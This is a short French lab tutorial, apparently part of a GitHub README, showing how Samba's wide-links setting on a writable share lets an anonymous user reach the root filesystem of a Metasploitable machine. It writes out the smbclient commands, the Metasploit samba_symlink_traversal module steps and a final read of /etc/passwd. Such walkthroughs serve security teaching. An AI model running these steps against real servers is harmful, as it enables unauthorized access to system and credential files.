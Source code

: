 </p> 

Samba, lorsqu'il est configuré avec un partage de fichiers accessible en écriture et des "liens larges" activés (par défaut), peut également être utilisé comme une sorte de *backdoor* pour accéder à des fichiers qui n'étaient pas censés être partagés. L'exemple ci-dessous utilise un module Metasploit pour permettre l'accès au système de fichiers racine à l'aide d'une connexion anonyme et d'un partage en écriture. 

```bash
smbclient -L //<IP machine Metasploit>
```

<p align="center">
    <img src="SMB.png" alt="SMB" style="width: 800px;" />
</p> 

```bash
msfconsole
use auxiliary/admin/smb/samba_symlink_traversal
set RHOST <IP machine Metasploit>
set SMBSHARE tmp
exploit
exit
```

<p align="center">
    <img src="smb_conf.png" alt="smb_conf" style="width: 500px;" />
</p> 

Quitter msfconsole et passer les commandes suivantes :

```bash
smbclient //<IP machine Metasploit> 
cd rootfs
cd etc
more passwd
```
